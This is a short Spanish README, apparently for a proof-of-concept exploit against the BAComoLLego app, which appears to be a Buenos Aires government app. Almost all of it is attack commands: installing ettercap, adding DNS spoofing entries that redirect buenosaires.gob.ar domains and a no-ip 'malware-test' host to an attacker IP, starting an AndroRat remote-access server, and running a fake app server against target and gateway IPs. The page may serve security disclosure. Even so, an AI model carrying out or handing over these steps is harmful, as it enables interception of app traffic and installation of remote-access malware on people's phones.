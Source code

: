 # Prueba de Concepto de explotación de BAComoLLego  

## Requerimientos ##

```
sudo apt-get install ettercap-graphical
```

## Configuración ##

Agregar a /etc/ettercap/etter.dns las lineas:

```
*.buenosaires.gob.ar A IP
malware-test.no-ip.info A IP
```
Correr server AndroRat:

```
sudo java -jar AndroRat.jar
```

Finalmente servidor falso con:

```
sudo python FakeComoLLegoServer.py /IP_TARGET/ /IP_GATEWAY/ /IP_LOCAL_HOST/
```
